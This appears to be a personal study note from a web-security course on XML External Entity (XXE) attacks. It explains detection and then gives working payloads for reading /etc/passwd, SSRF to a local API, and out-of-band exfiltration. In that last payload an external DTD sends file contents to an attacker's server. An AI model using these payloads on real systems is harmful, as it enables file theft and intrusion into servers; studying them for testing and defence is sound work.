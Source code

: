 # XML External Entity (XXE) Attack

_Extensible Markup Language_ (XML)
## XML syntax
If you wanna use "<" or "> " you can do it by encode data using function CDATA [[2023051417011010 XML#^237eca]]
<![CDATA[ content ]]>

DTD it like variable in programming language. DTDs are defined at the beginning of an XML document with a special DOCTYPE tag.
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE name [  
... one or more entities ...  
]>
```
## Discovering  XXE vulnerability
```xml
<?xml version="1.0" ?> <!DOCTYPE data [  
<!ELEMENT data ANY > <!ENTITY lastname "Replaced"> ]>

<Contact> <lastName>&lastname;</lastName> 
<firstName>Tom</firstName>

</Contact>
```
if the parser replaces the entity reference “&lastname;” with “Replaced” (the entity’s value), the parser is vulnerable to XXE

## Retrieving a file
```xml
<?xml version="1.0"?>  
<!DOCTYPE data [  
<!ELEMENT data ANY >  
<!ENTITY lastname SYSTEM "file:///etc/passwd"> ]>

<Contact> <lastName>&lastname;</lastName> 
<firstName>Tom</firstName>

</Contact>
```
If an application shows lastname in UI and an application has access to /etc/passwd we can see content  of /etc/passwd
## Error-based Testing
If an application returns a verbose error we can use it to exfiltrate information.

- If an application parsed xml results saved to database we can try to force SQL error based on column data type or length. See examples here [[2023051417011010 XML#^23cd2f]]
- We can try to generate an error by forcing the application parser to access a file that doesn't exist. 
## SSRF using XXE
If the parser allows to do external requests, we can try to get access to some private API. See about SSRF here [[202305201524033 SSRF Server-side Request Forgery]]
```xml
<?xml version="1.0"?>  
<!DOCTYPE data [  
<!ELEMENT data ANY >  
<!ENTITY lastname SYSTEM "http://localhost/someapi"> ]>

<Contact> <lastName>&lastname;</lastName>
<firstName>Tom</firstName>
</Contact>
```
## Out-of-Band Exploitation
It needs in cases when we can't obtain XXE results or obtain verbose error.
external.dtd
```xml
<!ENTITY % content SYSTEM "file:///etc/timezone">

<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://an attacker's ip address/out?%content;'>" >
```
Add external.dtd to an attacker's http server. 

Payload:
```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE oob [  
<!ENTITY % base SYSTEM "http://an attacker's ip address/external.dtd"> %base;  
%external;  
%exfil;  
]>  
<entity-engine-xml>  
</entity-engine-xml>
```
See an attacker's http server logs. For example apache logs
```bash
tail  /var/log/apache2/access.log 
```
See details here [[2023051417011010 XML#^2cd6dd]]
## References
1. https://en.wikipedia.org/wiki/XML_external_entity_attack 
2. web200.XML External Entities
3. web200, p. 279 ^237eca
4. web200, p. 294 ^23cd2f
5. web200, p.296 ^2cd6dd